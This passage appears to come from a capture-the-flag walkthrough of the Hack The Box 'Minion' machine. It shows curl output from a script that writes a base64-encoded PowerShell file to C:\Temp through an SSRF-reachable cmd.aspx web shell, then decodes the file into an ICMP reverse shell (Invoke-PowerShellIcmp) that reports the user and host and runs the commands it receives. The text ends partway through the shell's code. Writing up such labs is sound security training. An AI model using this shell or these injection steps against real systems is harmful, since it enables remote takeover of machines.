 Many requests will be sent:

```bash
❯ ./fileUpload.sh
*   Trying 10.10.10.57:62696...
* Connected to 10.10.10.57 (10.10.10.57) port 62696 (#0)
> GET /test.asp?u=http://localhost/cmd.aspx?xcmd=echo%20ZgB1AG4AYwB0AGkAbwBuACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAEkAYwBtAHAA%20%3E%3E%20C%3A%5CTemp%5Creverse.ps1 HTTP/1.1
> Host: 10.10.10.57:62696
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Cache-Control: private
< Expires: Wed, 04 Aug 2021 16:00:54 GMT
< Server: Microsoft-IIS/8.5
< Set-Cookie: ASPSESSIONIDQAQBRCAB=LJOPECFBAEBCELEKAKJGPFHH; path=/
< X-Powered-By: ASP.NET
< Date: Wed, 04 Aug 2021 14:30:54 GMT
< Content-Length: 163
<
```

The file exists:

```http
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type%20C:\Temp\reverse.ps1
```

Decode base64 file:

```
PS /home/kali/htb/minion> $file=Get-Content ./icmp.ps1.b64.bak
PS /home/kali/htb/minion> $decode=[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file))
PS /home/kali/htb/minion> $decode
function Invoke-PowerShellIcmp
{
    [CmdletBinding()] Param(
        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,
        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,
        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128
    )
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
```
